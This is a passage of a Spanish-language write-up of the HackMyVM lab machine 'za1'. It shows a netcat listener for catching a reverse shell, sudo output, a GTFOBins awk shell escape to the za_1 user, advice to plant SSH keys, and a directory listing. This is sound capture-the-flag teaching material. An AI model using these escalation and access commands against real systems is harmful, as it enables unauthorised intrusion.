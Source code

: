 ![img](../imgs/write-ups/hackmyvm/za1/za1_4.png)

**Nota:** Es necesario haber creado un listener. Ej **nc -lvnp 1234** 

## Escalado de privilegios

Dentro del servidor, rápidamente vemos que podemos ejecutar **awk** como el usuario za_1.

```
www-data@za_1:/$ sudo -l 
sudo -l
Matching Defaults entries for www-data on za_1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on za_1:
    (za_1) NOPASSWD: /usr/bin/awk
```

[GTFO Bins](https://gtfobins.github.io/gtfobins/awk/#sudo) nos da la clave para escalar privilegios.

```
sudo -u za_1 /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ whoami
za_1
```

Antes de nada, recomiendo crear un par de claves id_rsa y conectarse a través de **ssh** para que ejecutar comandos sea mas sencillo.

```
za_1@za_1:~$ ls -la
total 44
drwxr-xr-x 6 za_1 za_1 4096 Aug 22 08:49 .
drwxr-xr-x 3 root root 4096 Jul 26 07:07 ..
lrwxrwxrwx 1 za_1 za_1    9 Aug 22 08:49 .bash_history -> /dev/null
-rw-r--r-- 1 za_1 za_1  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 za_1 za_1 3771 Apr  4  2018 .bashrc
drwx------ 2 za_1 za_1 4096 Jul 26 07:08 .cache
drwx------ 3 za_1 za_1 4096 Jul 26 07:08 .gnupg
-rw-r--r-- 1 za_1 za_1  807 Apr  4  2018 .profile
drwxr-xr-x 2 za_1 za_1 4096 Jul 26 09:48 .root
drwx------ 2 za_1 za_1 4096 Sep  5 13:52 .ssh
-rw-r--r-- 1 za_1 za_1    0 Jul 26 07:17 .sudo_as_admin_successful
```